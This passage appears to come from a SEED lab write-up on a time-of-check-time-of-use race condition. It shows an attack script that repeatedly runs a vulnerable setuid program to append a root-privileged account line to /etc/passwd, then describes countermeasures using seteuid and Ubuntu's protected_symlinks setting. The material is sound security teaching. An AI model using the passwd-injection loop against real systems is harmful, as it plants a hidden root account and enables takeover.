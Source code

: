 Then we run the vulnerable program:

```bash
#!/bin/bash
# victim.sh
CHECK_FILE="ls -l /etc/passwd"
echo "rambo:U6aMy0wojraho:0:0:test:/root:/bin/bash" > passwd_input
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./vuln < passwd_input
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

Result:

![Screen Shot 2018-11-27 at 4.36.55 PM.png]({{ site.url }}/images/seed/E749E7B1DD012222590C73C4461256F8.png)

### 032 Task 3 Countermeasure: Applying the Principle of Least Privilege

We can use `seteuid` to currently limit the privilege:

```c
	// lose the privilege currently
	seteuid(getuid());
	if(!access(fn, W_OK)){
        // ...
	}
	else printf("No permission \n");
	// recover the privilege
	seteuid(0);
```

### 033 Task 4 Countermeasure: Using Ubuntu’s Built-in Scheme

We can also turn on the built-in protection to avoid such vulnability:

```bash
# On Ubuntu 12.04
sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
# On Ubuntu 16.04
sudo sysctl -w fs.protected_symlinks=1
```

Refer to [Documentation for /proc/sys/fs/*](https://www.kernel.org/doc/Documentation/sysctl/fs.txt):

A long-standing class of security issues is the symlink-based time-of-check-time-of-use race, most commonly seen in world-writable directories like /tmp. The common method of exploitation of this flaw is to cross privilege boundaries when following a given symlink (i.e. a root process follows a symlink belonging to another user). For a likely incomplete list of hundreds of examples across the years, please see: http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=/tmp
